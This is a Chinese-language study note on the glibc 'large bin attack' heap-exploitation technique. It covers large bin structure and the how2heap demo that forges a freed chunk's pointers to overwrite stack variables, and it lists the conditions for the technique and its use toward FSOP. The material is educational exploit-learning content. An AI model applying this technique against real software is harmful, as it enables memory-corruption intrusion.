

## Large Bin Attack

large bin中一共包括63个bin，每个bin中的chunk大小不一致，而是出于一定区间范围内。此外这63个bin被分成了6组，每组bin中的chunk之间的公差一致

Largebin用来收容超过0x400大小以上的chunk(64位)，其是一个双向链表，一共可以容纳63个chunk，对于链表对应存储chunk的大小没有明确规定，而是规定了一个范围，根据具体的数值可以分为6组
```
组-------数量--------差值
1---------32---------64(0x40)
2---------16---------512(0x200)
3---------8----------4096(0x1000)
4---------4----------32768(0x8000)
5---------2----------262144(0x40000)
6---------1----------无限制
```


### large bin

```
large bin的结构相对来说比较复杂
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

比一般的bin中的chunk多了fd_nextsize和bk_nextsize结构

fd_nextsize，bk_nextsize：只有chunk空闲的时候才使用，不过用于较大的chunk（large chunk）
fd_nextsize指向前一个与当前chunk大小不同的第一个空闲块，不包含bin的头指针
bk_nextsize指向后一个与当前chunk大小不同的第一个空闲块，不包含bin的头指针
一般空闲的large chunk在fd的遍历顺序中，按照由大到小的顺序排列。这样可以避免在寻找合适chunk时挨个遍历

用 fd_nextsize 和 bk_nextsize 链接的链表为横向链表，用 fd 和 bk 链接的链表为纵向链表
在横向链表中，堆管理器维护一个循环的单调链表，由最大的 size（在这个 index 下的最大 size）作为表头，最小的 size 作为表尾，且首尾相连。
size 最大的chunk的 bk_nextsize 指向最小的 chunk，size 最小的 chunk 的 fd_nextsize 指向最大的 chunk
一般空闲的large chunk在fd的遍历顺序中，按照由大到小的顺序排列


### Large Bin的插入顺序
在index相同的情况下：

1、按照大小，从大到小排序（小的链接large bin块）
2、如果大小相同，按照free的时间排序
3、多个大小相同的堆块，只有首堆块的fd_nextsize和bk_nextsize会指向其他堆块，后面的堆块的fd_nextsize和bk_nextsize均为0
4、size最大的chunk的bk_nextsize指向最小的chunk，size最小的chunk的fd_nextsize指向最大的chunk


### example code from how2heap
```
 // gcc -g -no-pie hollk.c -o hollk
 #include <stdio.h>
 #include <stdlib.h>
 
 int main()
 {
 
     unsigned long stack_var1 = 0;
     unsigned long stack_var2 = 0;
 
     fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
     fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
 
     unsigned long *p1 = malloc(0x320);
     malloc(0x20);
     unsigned long *p2 = malloc(0x400);
     malloc(0x20);
     unsigned long *p3 = malloc(0x400);
     malloc(0x20);

     free(p1);
     free(p2);
 
     void* p4 = malloc(0x90);
 
     free(p3);
 
     p2[-1] = 0x3f1;
     p2[0] = 0;
     p2[2] = 0;
     p2[1] = (unsigned long)(&stack_var1 - 2);
     p2[3] = (unsigned long)(&stack_var2 - 4);
 
     malloc(0x90);
 
     fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
     fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
 
     return 0;
 }

```
简单的说明一下这个例子的执行流程：

首先定义了两个变量stack_var1和stack_var2，并且都赋值为0。

接下来打印出两个变量的地址stack_var1_addr和stack_var2_addr以及两个变量中的值。

接下来分别申请size为0x330、0x410、0x410三个大堆块p1、p2、p3，以及三个size为0x20的小堆块。

然后释放掉p1和p2，并申请了一个size为0xa0的堆块，继续释放p3.接着直接修改p2的size、fd、bk、fd_nextsize、bk_nextsize。接着又申请了一个size为0xa0大小的堆块。

再次打印stack_var1、stack_var2的地址和值。

detailed analysis can be found in https://blog.csdn.net/qq_41202237/article/details/112825556

large bin attack 是将指定位置的两个变量改写为两个堆上的地址，变成一个很大的值。

一点感想：堆上的漏洞都是发生在堆的分配和释放过程中，也就是说在解链和合并的过程，所以要牢记各种情形下的堆的操作过程。
Ref：
One thought: vulnerabilities on the heap occur during heap allocation and release, that is, during unchaining and merging, so it is important to keep in mind the process of heap manipulation in various scenarios.

总结 large bin attack 的利用方法 ¶
how2heap 中也说了，large bin attack 是未来更深入的利用。现在我们来总结一下利用的条件：

可以修改一个 large bin chunk 的 data
从 unsorted bin 中来的 large bin chunk 要紧跟在被构造过的 chunk 的后面
通过 large bin attack 可以辅助 Tcache Stash Unlink+ 攻击
可以修改 _IO_list_all 便于伪造 _IO_FILE 结构体进行 FSOP。

https://blog.csdn.net/qq_41202237/article/details/112825556

https://xz.aliyun.com/t/12751